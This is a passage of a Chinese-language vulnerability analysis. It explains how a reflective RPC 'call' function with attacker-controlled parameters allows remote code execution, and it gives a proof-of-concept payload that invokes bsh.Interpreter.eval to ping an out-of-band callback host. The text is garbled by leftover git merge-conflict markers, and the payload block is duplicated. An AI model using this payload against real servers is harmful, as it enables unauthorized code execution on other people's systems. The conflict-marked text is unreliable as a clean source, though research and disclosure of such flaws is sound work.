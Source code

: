 [![](assets/1710206158-6b2159f49410da9249cacb8579a77e17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311104833-d988e24e-df51-1.png)

然后一顿字符串处理，直接拉到 call 函数最后，instance、getMethod、method.invoke 获取实例、获取类方法、反射调用，并且通过上面可以知道，所以参数都可控。

[![](assets/1710206158-d8c1ad53601883eb0a5224b3b1fae459.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311104848-e30770ba-df51-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

看起来是直接代码执行。

## 0x01

直接传递如下

<<<<<<< HEAD
```plain
rpcname 为 bsh.Interpreter
method 为 eval
params 为 ping o3n9.callback.red
=======
```bash
rpcname 为 bsh.Interpreter
method 为 eval
params 为 ping o3n9.callback.red
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
```
